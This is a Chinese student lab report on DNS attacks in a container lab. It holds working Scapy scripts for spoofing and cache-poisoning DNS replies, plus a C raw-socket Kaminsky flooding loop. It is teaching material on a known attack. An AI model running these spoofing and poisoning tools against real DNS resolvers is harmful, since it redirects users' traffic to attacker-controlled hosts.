

# Lab 4 DNS攻击实验

Course: 网络安全原理与实践
Lesson Date: 2026年3月31日
Status: Complete
Type: Lab

---

# 本地DNS攻击

## DNS配置总结

我们先来讲一讲整个实验网络的架构，这有助于我们理解整个实验



我们为这个架构绘制了一张拓扑图，如下

```c
用户(user) → 本地DNS(local-dns) → 外部世界（router） →
          ↘ attacker DNS（攻击者）
```

首先，10.9.0.5作为用户机器发起DNS请求接受DNS响应，由于我们在容器设置中将10.9.0.53作为第一个nameserver，因此该服务器将作为首选 DNS 服务器；那么对于本地DNS服务器，它是我们攻击的核心目标，我们对它进行了以下修改：固定端口号；关闭DNSSEC（可以被伪造响应欺骗）；转发attacker32.com到10.9.0.153的攻击者域名服务器

```c
zone "attacker32.com" {
    type forward;
    forwarders { 
        10.9.0.153; 
    };
};
```

攻击者域名服务器同时托管两个zone，第一是合法的attacker32.com，另一个则是伪造成example.com的权威服务器；seed-attacker作为我们真正发起攻击的机器，会运行我们构造的攻击脚本对于DNS请求进行嗅探和伪造；最后seed-router作为路由器连接内部网络和外部网络，将DNS请求转发到互联网

```c
zone "attacker32.com" {
        type master;
        file "/etc/bind/zone_attacker32.com";
};

zone "example.com" {
        type master;
        file "/etc/bind/zone_example.com";
};
```

## DNS配置测试

### 获取ns.attacker32.com的IP地址

我们在用户容器上执行`dig ns.attacker32.com`来获取其IP地址，由于配置文件中添加的转发区域，本地DNS服务器会将请求转发到攻击者域名服务器，我们将得到攻击者IP `10.9.0.153`


### 获取www.example.com的IP地址

在用户容器上运行`dig www.example.com` 和`dig @ns.attacker32.com www.example.com` 分别向官方域名服务器和`ns.attacker32.com`查询对应IP地址，结果如下


可以看到本地DNS会返回真实IP地址，而攻击者DNS则会返回伪造的IP地址

## 任务1：直接向用户伪造响应

为了攻击成功，我们先清空本地DNS服务器的缓存`rndc flush` ，同时在路由器上增加延迟来延缓外部流量（使真实响应晚到达）`tc qdisc add dev (*@\textbf{eth0}@*) root netem delay 100ms`，并在攻击者容器对于代码框架进行填充，

```python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
  if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
    print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
    udp = UDP(sport=pkt[UDP].dport, dport=pkt[UDP].sport)
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', ttl=300, rdata='1.2.3.4')
    dns = DNS(id=pkt[DNS].id, qr=1, aa=1, qd=pkt[DNS].qd, an=Anssec)
    spoofpkt = ip/udp/dns
    send(spoofpkt)

myFilter = "udp and port 53"
pkt=sniff(iface='br-453893afdea9', filter=myFilter, prn=spoof_dns)
```

我们先记录下在攻击前查询的效果，这是我们上面查询到过的正确结果


运行代码，再次在用户机器进行DNS查询，发现攻击者机器成功嗅探到包并发出伪造包，同时查询结果被成功篡改，证明攻击成功


## 任务2：DNS缓存投毒攻击——伪造答案

我们再次清空缓存，并修改代码如下

```python
#!/usr/bin/env python3
from scapy.all import *
import sys
NS_NAME = "example.com"
def spoof_dns(pkt):
  if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
    print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))
    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
    udp = UDP(sport=pkt[UDP].dport, dport=pkt[UDP].sport)
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', ttl=86400, rdata='1.2.3.4')
    dns = DNS(id=pkt[DNS].id, qr=1, aa=1, qd=pkt[DNS].qd, an=Anssec, ancount=1)
    spoofpkt = ip/udp/dns
    send(spoofpkt)
myFilter = "udp and port 53"
pkt=sniff(iface='br-453893afdea9', filter=myFilter, prn=spoof_dns)
```

我们在攻击者机器上运行代码，同时在用户容器上触发查询，可以看到嗅探和伪造进行


为了验证攻击效果，我们对于DNS服务器进行检查，我们将缓存内容进行转存并查看

```bash
# rndc dumpdb -cache
# cat /var/cache/bind/dump.db
```

可以看到缓存被成功修改（中毒），证明我们的攻击是成功的


## 任务3：伪造NS记录

我们在代码中增加对于NS记录的修改，修改后的代码如下

```python
#!/usr/bin/env python3
from scapy.all import *
import sys
NS_NAME = "example.com"
def spoof_dns(pkt):
  if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
    print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))
    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
    udp = UDP(sport=pkt[UDP].dport, dport=pkt[UDP].sport)
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', ttl=86400, rdata='1.2.3.4')
    NSsec = DNSRR(rrname="example.com", type='NS', ttl=259200, rdata="ns.attacker32.com")
    dns = DNS(id=pkt[DNS].id,qr=1,aa=1,qd=pkt[DNS].qd,an=Anssec,ns=NSsec,ancount=1,nscount=1)
    spoofpkt = ip/udp/dns
    send(spoofpkt)
myFilter = "udp and port 53"
pkt=sniff(iface='br-453893afdea9', filter=myFilter, prn=spoof_dns)
```

重新清空缓存并触发查询，检查攻击后的DNS服务器，可以看到其缓存了example.com的NS记录，同时将ns.attacker32.com作为该域的权威服务器，那么之后对于example.com域下任意子域名的查询都将被转发到攻击者控制的服务器并返回伪造的ip地址


## 任务4：伪造另一个域的NS记录

我们只要在原先代码的基础上增加一个NS记录

```python
#!/usr/bin/env python3
from scapy.all import *
import sys
NS_NAME = "example.com"
def spoof_dns(pkt):
  if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
    print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))
    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
    udp = UDP(sport=pkt[UDP].dport, dport=pkt[UDP].sport)
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', ttl=86400, rdata='1.2.3.4')
    NSsec1 = DNSRR(rrname="example.com", type='NS', ttl=259200, rdata="ns.attacker32.com")
    NSsec2 = DNSRR(rrname="google.com", type='NS', ttl=259200, rdata="ns.attacker32.com")
    dns = DNS(id=pkt[DNS].id,qr=1,aa=1,qd=pkt[DNS].qd,an=Anssec,ns=NSsec1/NSsec2,ancount=1,nscount=2)
    spoofpkt = ip/udp/dns
    send(spoofpkt)
myFilter = "udp and port 53"
pkt=sniff(iface='br-453893afdea9', filter=myFilter, prn=spoof_dns)
```

运行脚本并触发攻击，以下是DNS服务器的缓存记录，可以看到，尽管增加了NS记录，但是google.com的NS记录并未被缓存，这是因为DNS服务器在缓存响应时会根据查询域名来判断NS记录是否相关，本次查询中仅与example.com相关的记录会被接受缓存，而无关记录视为out-of-bailiwick被忽略


## 任务5：在附加部分伪造记录

修改后的代码如下

```python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
  if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
    print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
    udp = UDP(sport=pkt[UDP].dport, dport=pkt[UDP].sport)
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', ttl=86400, rdata='1.2.3.4')
    NSsec1 = DNSRR(rrname="example.com", type='NS', ttl=259200, rdata="ns.attacker32.com")
    NSsec2 = DNSRR(rrname="example.com", type='NS', ttl=259200, rdata="ns.example.com")
    Addsec1 = DNSRR(rrname="ns.attacker32.com", type='A', ttl=259200, rdata="1.2.3.4")
    Addsec2 = DNSRR(rrname="ns.example.net", type='A', ttl=259200, rdata="5.6.7.8")
    Addsec3 = DNSRR(rrname="www.facebook.com", type='A', ttl=259200, rdata="3.4.5.6")
    dns = DNS(
        id=pkt[DNS].id,
        qr=1,
        aa=1,
        qd=pkt[DNS].qd,
        an=Anssec,
        ns=NSsec1/NSsec2,
        ar=Addsec1/Addsec2/Addsec3,
        ancount=1,
        nscount=2,
        arcount=3
    )
    spoofpkt = ip/udp/dns
    send(spoofpkt)

myFilter = "udp and port 53"
pkt=sniff(iface='br-453893afdea9', filter=myFilter, prn=spoof_dns)
```

记录攻击实行后的结果，可以看到仅有a被缓存，因为它是NS记录对应的主机，DNS服务器需要该IP才能继续解析；b，c则不会被缓存，因为b都属于域外，DNS服务器不会信任并缓存该记录，而www.facebook.com与当前查询无关，也不会被缓存


# 远程DNS攻击

远程攻击被叫停了但是为了小测我们做一个粗略的了解，重点是Kaminsky攻击

在此任务中，攻击者向受害 DNS 服务器 (Apollo) 发送 DNS 查询请求，从而触发来自 Apollo 的 DNS 查询。DNS 查询首先前往其中一个根 DNS 服务器，接着是 .COM 的 DNS服务器，最终从 example.com 的 DNS 服务器得到查询结果，查询过程如上图所示。如果 example.com 的域名服务器信息已经被 Apollo 缓存，那么查询不会前往根服务器或 .COM DNS 服务器，这个过程如下图所示。在本实验中，下图描绘的场景更为常见，因此我们以这个图为基础来描述攻击机制。


当 Apollo 等待来自 example.com 域名服务器的DNS答复时，攻击者可以发送伪造的答复给 Apollo，假装这个答复是来自 example.com 的域名服务器。如果伪造的答复先到达而且有效，那么它将被 Apollo 接收，攻击成功。

如果你已经做了本地 DNS 攻击的实验，你应该会知道那个实验的攻击是假定攻击者和DNS服务器位于同一局域网，所以攻击者可以捕捉到DNS查询数据包。但当攻击者与DNS服务器不在同一局域网时，缓存投毒攻击会变得非常困难。主要的难点在于DNS响应中的 Transcation ID 必须与查询请求中的相匹配。由于查询中的 ID 通常是随机生成的，在看不到请求包的情况下，攻击者很难猜到正确的ID。

当然，攻击者可以猜测 Transcation ID。由于这个 ID 只有16 个比特大小，如果攻击者可以在攻击窗口内伪造 K 个响应 (即在合法响应到达之前)，那么攻击成功的可能性就是 K/216。发送数百个伪造响应并不是不切实际的，因此攻击成功是比较容易的。

然而，上述假设的攻击忽略了 DNS 缓存。在现实中，如果攻击者没有在合法的响应到达之前猜中正确的 Transcation ID，那么DNS服务器会将正确的信息缓存一段时间。这种缓存效果使攻击者无法继续伪造针对该域名的响应，因为 DNS 服务器在缓存超时之前不会针对该域名发出另一个DNS查询请求。为了继续对同一个域名的响应做伪造，攻击者必须等待针对该域名的另一个DNS查询请求，这意味着他必须要等到缓存超时，而等待时间会长达几小时甚至是几天。

Dan Kaminsky 提出了一个巧妙的方法来解决缓存的问题。通过他的方案，攻击者可以持续地发起欺骗攻击，而不需要等待，因此攻击可以在很短的一段时间内成功。攻击的详细描述在书中可以找到。在本任务中，我们将尝试这个攻击手段。以下步骤（基于上图）概述了攻击的过程。

1. 攻击者向DNS服务器Apollo 查询example.com域中一个不存在的主机名，如twysw.example.com，其中twysw是一个随机的名字。
2. 由于Apollo的DNS缓存中不会有这个主机名，Apollo 会向example.com域的域名服务器发送一个DNS查询请求。
3. 当Apollo 等待答复时，攻击者向 Apollo发送大量的伪造的DNS响应，每个响应尝试一个不同的 Transaction ID(期望其中一个是正确的)。在响应中，攻击者不仅提供twysw.example.com的IP 地址，还提供了一条``权威授权服务器’’记录，指明ns.attacker32.com是`example.com`域的域名服务器。如果伪造的响应比实际响应到达的早，且 Transaction ID 与请求中的 ID 一样，`Apollo`就会接受并缓存伪造的答案。这样`Apollo`的DNS缓存就被投毒成功了。
4. 即使伪造的DNS响应失败了(例如，Transaction ID 不匹配或到达的太晚了)，也没有关系，因为下一次攻击者会查询另一个主机名，所以 Apollo 会发送另一个DNS请求，从而给攻击者提供了另一个伪造的机会。这种方法有效地克服了DNS缓存效果。
5. 如果攻击成功，那么在Apollo的DNS缓存中，example.com域的域名服务器会被攻击者替换成ns.attacker32.com。为证明成功攻击，学生需要展示在Apollo的DNS缓存中存在这样一条记录。

**任务综述** 实现Kaminsky攻击具有很强的挑战性，因此我们将它分解为好几个子任务。在任务2中，我们构造一个 example.com 域内主机名的DNS查询请求。在任务3中，我们构造一个从 example.com 域名服务器返回的伪造响应。在任务4中，我们前面的工作整合到一起，进行Kaminsky攻击。最后我们在任务5中验证攻击的效果。

## 任务2 [**构造 DNS 请求**](http://10.203.14.25/course/section.php?id=648)

任务2专注于发送DNS请求。为了完成攻击，攻击者需要触发目标DNS服务器发出DNS查询，这样攻击者才有机会去伪造DNS响应。由于攻击者需要尝试多次才能成功，因此最好使用程序来自动发送DNS查询。

```c
from scapy.all import *

# DNS 查询部分
Qdsec = DNSQR(qname='www.example.com')

dns = DNS(
    id=0xAAAA,      # 随机ID（攻击时要猜）
    qr=0,           # 0 = query
    qdcount=1,
    ancount=0,
    nscount=0,
    arcount=0,
    qd=Qdsec
)

# IP 层
ip = IP(
    dst='10.9.0.53',    # 👉 本地DNS服务器（目标服务器）
    src='10.9.0.100'    # 👉 伪造的客户端IP（攻击者控制的机器）
)

# UDP 层
udp = UDP(
    dport=53,           # DNS端口
    sport=33333         # 随机源端口（很重要）
)

# 拼包
request = ip / udp / dns

# 发送
send(request)
```

## 任务3 伪造DNS响应

在此任务中，我们需要伪造Kaminsky攻击中的DNS响应。由于我们的攻击目标是 [example.com](http://example.com/)，我们需要伪造从该域的域名服务器返回的响应。你首先需要找到 [example.com](http://example.com/) 的合法域名服务器的IP地址(值得注意的是这个域名有多个域名服务器)。

你可以使用Scapy来实现这个任务，以下的代码示例构建了一个DNS响应包，其中包含了问题部分，回答部分以及一个域名服务器部分。在这段代码中，我们使用 +++ 作为占位符，你需要用Kaminsky攻击中所需要的值来替换。你需要解释为什么选择这些值。

```c
from scapy.all import *

# 目标查询（随机子域）
name   = 'aaaa.example.com'     # 随机子域（关键！）
domain = 'example.com'          # 目标域
ns     = 'ns.attacker32.com'    # 攻击者控制的NS

# DNS部分
Qdsec  = DNSQR(qname=name)

Anssec = DNSRR(
    rrname=name,
    type='A',
    rdata='1.2.3.4',   # 随便填（不重要）
    ttl=259200
)

NSsec  = DNSRR(
    rrname=domain,
    type='NS',
    rdata=ns,
    ttl=259200
)

dns = DNS(
    id=0xAAAA,   # 必须匹配请求ID（需要猜）
    aa=1,        # authoritative answer（伪装权威）
    rd=1,
    qr=1,        # response
    qdcount=1,
    ancount=1,
    nscount=1,
    arcount=0,
    qd=Qdsec,
    an=Anssec,
    ns=NSsec
)

# IP层
ip = IP(
    dst='10.9.0.53',   # 本地DNS服务器
    src='93.184.216.34'  # example.com的“合法权威DNS IP”（伪造！）
)
# UDP层
udp = UDP(
    dport=33333,   # 必须匹配请求的源端口（猜）
    sport=53       # DNS服务器端口
)
reply = ip / udp / dns
send(reply)
```

## 任务4 进行Kaminsky攻击

### step1 send_dns_request

```c
void send_dns_request(char *ip_req, int n_req, char *name)
{
    // DNS query name 在 packet 中的位置（需要根据你生成的模板确定）
    int offset = 41;  // ⚠️ 这个值要根据 ip_req.bin 实际调整

    // 构造：xxxxx.example.com
    char full[50];
    sprintf(full, "%s.example.com", name);

    // DNS name encoding（长度+字符串）
    int i = 0, j = 0;
    while (full[i] != '\0') {
        int len = 0;
        while (full[i+len] != '.' && full[i+len] != '\0') len++;

        ip_req[offset++] = len;
        for (int k=0; k<len; k++)
            ip_req[offset++] = full[i+k];

        i += len;
        if (full[i] == '.') i++;
    }
    ip_req[offset++] = 0; // end

    send_raw_packet(ip_req, n_req);
}
```

### step2 send_dns_response

```c
void send_dns_response(char *ip_resp, int n_resp, char *name)
{
    // 修改 Transaction ID（DNS header 前2字节）
    unsigned short *dns_id = (unsigned short *)(ip_resp + 28);
    *dns_id = rand() % 65536;

    // 修改 query name（和 request 一样）
    int offset = 41;  // ⚠️ 根据模板调整

    char full[50];
    sprintf(full, "%s.example.com", name);

    int i = 0;
    while (full[i] != '\0') {
        int len = 0;
        while (full[i+len] != '.' && full[i+len] != '\0') len++;

        ip_resp[offset++] = len;
        for (int k=0; k<len; k++)
            ip_resp[offset++] = full[i+k];

        i += len;
        if (full[i] == '.') i++;
    }
    ip_resp[offset++] = 0;

    send_raw_packet(ip_resp, n_resp);
}
```

## step3

```c
#include <stdlib.h>
#include <arpa/inet.h>
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <time.h>

#define MAX_FILE_SIZE 1000000

/* IP Header */
struct ipheader {
  unsigned char      iph_ihl:4,
                     iph_ver:4;
  unsigned char      iph_tos;
  unsigned short int iph_len;
  unsigned short int iph_ident;
  unsigned short int iph_flag:3,
                     iph_offset:13;
  unsigned char      iph_ttl;
  unsigned char      iph_protocol;
  unsigned short int iph_chksum;
  struct  in_addr    iph_sourceip;
  struct  in_addr    iph_destip;
};

void send_raw_packet(char * buffer, int pkt_size);

/* 修改DNS query name */
void change_name(unsigned char *packet, char *name)
{
    int offset = 41;   // ⚠️ 可能需要调整

    char full[50];
    sprintf(full, "%s.example.com", name);

    int i = 0;
    while (full[i] != '\0') {
        int len = 0;
        while (full[i+len] != '.' && full[i+len] != '\0') len++;

        packet[offset++] = len;
        for (int k = 0; k < len; k++) {
            packet[offset++] = full[i+k];
        }

        i += len;
        if (full[i] == '.') i++;
    }
    packet[offset++] = 0;
}

/* 发送DNS请求 */
void send_dns_request(unsigned char *ip_req, int n_req, char *name)
{
    change_name(ip_req, name);
    send_raw_packet(ip_req, n_req);
}

/* 发送伪造DNS响应 */
void send_dns_response(unsigned char *ip_resp, int n_resp, char *name)
{
    // 修改 transaction ID（DNS header 起始在IP(20)+UDP(8)=28）
    unsigned short *dns_id = (unsigned short *)(ip_resp + 28);
    *dns_id = rand() % 65536;

    // 修改 query name
    change_name(ip_resp, name);

    send_raw_packet(ip_resp, n_resp);
}

int main()
{
  srand(time(NULL));

  // 读取请求模板
  FILE * f_req = fopen("ip_req.bin", "rb");
  if (!f_req) {
     perror("Can't open 'ip_req.bin'");
     exit(1);
  }
  unsigned char ip_req[MAX_FILE_SIZE];
  int n_req = fread(ip_req, 1, MAX_FILE_SIZE, f_req);

  // 读取响应模板
  FILE * f_resp = fopen("ip_resp.bin", "rb");
  if (!f_resp) {
     perror("Can't open 'ip_resp.bin'");
     exit(1);
  }
  unsigned char ip_resp[MAX_FILE_SIZE];
  int n_resp = fread(ip_resp, 1, MAX_FILE_SIZE, f_resp);

  char a[26] = "abcdefghijklmnopqrstuvwxyz";

  while (1) {
    // 生成随机子域
    char name[6];
    name[5] = '\0';
    for (int k = 0; k < 5; k++) {
        name[k] = a[rand() % 26];
    }

    // Step 1: 触发DNS查询
    send_dns_request(ip_req, n_req, name);

    // Step 2: 爆破响应（关键）
    for (int i = 0; i < 1000; i++) {
        send_dns_response(ip_resp, n_resp, name);
    }
  }
}

/* 发送 raw packet */
void send_raw_packet(char * buffer, int pkt_size)
{
  struct sockaddr_in dest_info;
  int enable = 1;

  int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);

  setsockopt(sock, IPPROTO_IP, IP_HDRINCL,
	     &enable, sizeof(enable));

  struct ipheader *ip = (struct ipheader *) buffer;

  dest_info.sin_family = AF_INET;
  dest_info.sin_addr = ip->iph_destip;

  sendto(sock, buffer, pkt_size, 0,
       (struct sockaddr *)&dest_info, sizeof(dest_info));

  close(sock);
}
```